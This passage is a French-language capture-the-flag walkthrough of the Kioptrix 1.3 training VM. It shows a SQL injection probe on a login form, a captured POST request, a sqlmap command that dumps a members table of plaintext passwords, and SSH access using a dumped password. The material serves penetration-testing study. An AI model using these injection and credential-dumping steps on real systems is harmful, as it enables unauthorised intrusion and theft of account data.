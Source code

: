 ## Exploitation 

### Site Web : 
Un site tourne sur la cible. En l'ouvrant voici ce que je trouve : 
![](/home/jugu/Images/kioptrix13.png)

J'obtiens une erreur de Mysql en insérant ``'or 1=1`` dans le champ du mot de passe. Avec ZAP proxy je vais récupérer les informations de la requête pour ensuite utiliser SQLmap : 
```bash
POST http://192.168.122.133/checklogin.php HTTP/1.1
Host: 192.168.122.133
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.122.133/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
myusername=loneferret&mypassword=lol&Submit=Login
```
Maintenant nous allons utiliser SQLmap pour dumper les données: 

```bash
root@Kali:~/kiopitrix-1-3# sqlmap -u "http://192.168.122.133/checklogin.php" --method POST --data 'myusername=loneferret&mypassword=lol&Submit=Login' --dump     
....
....
Database: members
Table: members
[2 entries]
+----+----------+-----------------------+
| id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
+----+----------+-----------------------+

[10:10:55] [INFO] table 'members.members' dumped to CSV file '/root/.sqlmap/output/192.
168.122.133/dump/members/members.csv'
[10:10:55] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168
.122.133'

[*] shutting down at 10:10:55

```
### Intrusion dans le système 

Je pars du principe que l'homme est le maillon faible de la chaîne de sécurité. Je vais donc utiliser les deux mots de passe trouvé ici pour me connecter directement à SSH. 
```bash
root@Kali:~/kiopitrix-1-3# ssh john@192.168.122.133
The authenticity of host '192.168.122.133 (192.168.122.133)' can't be established.     
RSA key fingerprint is SHA256:3fqlLtTAindnY7CGwxoXJ9M2rQF6nn35SFMTVv56lww.
Are you sure you want to continue connecting (yes/no)? yes 
Warning: Permanently added '192.168.122.133' (RSA) to the list of known hosts.
john@192.168.122.133's password:
Welcome to LigGoat Security Systems - We are Watching   
== Welcome LigGoat Employee ==  
LigGoat Shell is in place so you  don't screw up 
Type '?' or 'help' to get the list of allowed commands  
john:~$ ? 
cd  clear  echo  exit  help  ll  lpath  ls 
```